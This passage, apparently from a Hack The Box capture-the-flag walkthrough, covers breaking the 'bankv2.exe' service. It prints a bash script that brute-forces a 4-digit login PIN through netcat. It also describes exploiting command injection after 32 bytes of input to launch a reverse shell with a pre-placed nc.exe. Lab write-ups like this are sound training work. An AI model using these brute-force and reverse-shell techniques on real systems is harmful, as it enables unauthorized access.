 #### Breaking `bankv2.exe`

So, the program requires a 4-digit PIN to log in, eh? That should be easy. I wrote a simple brute-forcer for that.

<div class="filename"><span>pin.sh</span></div>

```bash
#!/bin/bash

HOST=127.0.0.1
PORT=910
PIN=$1

function die() {
  killall perl &>/dev/null
}

if echo $PIN | nc $HOST $PORT 2>&1 | sed -r '$!d' | grep -iv 'denied' &>/dev/null; then
  echo "[*] PIN: $PIN"
  die
fi
```

See? Easy.

<a class="image-popup">
![3ad896c0.png](/assets/images/posts/bankrobber-htb-walkthrough/3ad896c0.png)
</a>

Long story short, the program is susceptible to a command injection vulnerability, after 32 bytes of string input. Prior to that, I\'ve already copied `nc.exe` over to `C:\users\cortin\appdata\nc.exe`, so we'll launch a reverse shell from there.

<a class="image-popup">
![966210fe.png](/assets/images/posts/bankrobber-htb-walkthrough/966210fe.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/209
[2]: https://www.hackthebox.eu/home/users/profile/3244
[3]: https://www.hackthebox.eu/home/users/profile/623
[4]: https://www.hackthebox.eu/